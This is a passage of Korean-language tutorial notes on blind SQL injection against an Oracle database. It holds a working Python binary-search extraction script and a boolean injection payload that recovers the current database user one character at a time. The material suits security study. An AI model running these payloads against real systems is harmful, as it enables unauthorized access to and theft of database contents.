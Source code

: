 ```python
            e = 126
            while s < e:
                m = (s+e)//2
                DATA['user_name'] = attack_query(query,row,point,m)
                if is_success() :
                    s = m+1
                else:
                    e = m
            #
            print(chr(s),end='',flush=True)
            point +=1
        print()
        #
        row+=1
    return
# sql 질의문
# row 0 부터 시작
# point 1 부터 시작
# ascii
def attack_query(sql, row, point, ascii) -> str :
    attack_query = (
        "user2' and ((ascii(substr((",
        sql,
        " OFFSET ",
        str(row),
        " ROWS FETCH NEXT 1 ROWS ONLY),",
        str(point),
        ",1)))>",
        str(ascii),
        ") and '1'='1"
    )
    return ''.join(attack_query)
```


## 사용자 명 추출 하기.
- 현재 사용중인 사용자 명을 출력한다.

```sql
select user from dual;
공격 포맷 = ' user2' and ((ascii(substr((select user from dual),1,1)))>0) and '1'='1 '
성공

한 문자씩 찾아주면 된다.
```

- 파이썬 코드로 빠르게 사용자 명 찾기.

```python
def find_current_user_name():
    query = "select user from dual"
    find_data(query= query)
    return
```
